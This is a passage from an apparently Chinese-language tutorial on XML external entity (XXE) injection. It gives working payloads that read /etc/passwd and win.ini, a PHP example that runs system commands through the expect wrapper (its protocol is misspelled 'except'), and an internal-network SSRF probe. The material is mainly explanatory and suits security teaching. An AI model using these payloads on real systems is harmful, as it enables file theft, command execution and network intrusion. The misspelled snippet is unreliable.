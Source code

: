 DTD文件内容

```xml
<!ENTITY b SYSTEM "file:///etc/passwd">
```



**恶意引入外部实体(4)**

```xml
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY  xxe SYSTEM "file:///c:/windows/win.ini" >]>
<foo>&xxe;</foo>
```

## 命令执行

- php环境下，xml命令执行要求php装有expect扩展。而该扩展默认没有安装。

```php
<?php
$xml = <<<EOF
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "except://ls"> # id
]>
<x>&f;</x>
EOF;
$data = simplexml_load_string($xml);
print_r($data);
?>
```

该CASE是在安装expect扩展的PHP环境里执行系统命令，其他协议也有可能可以执行系统命令。

 

## 内网探测/SSRF

- 由于xml实体注入攻击可以利用http://协议，也就是可以发起http请求。可以利用该请求去探查内网，进行SSRF攻击。

 ```php
<?php
$xml = <<<EOF
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "http://192.168.1.1:80/">
]>
<x>&f;</x>
EOF;
$data = simplexml_load_string($xml);
print_r($data);
?>
 ```


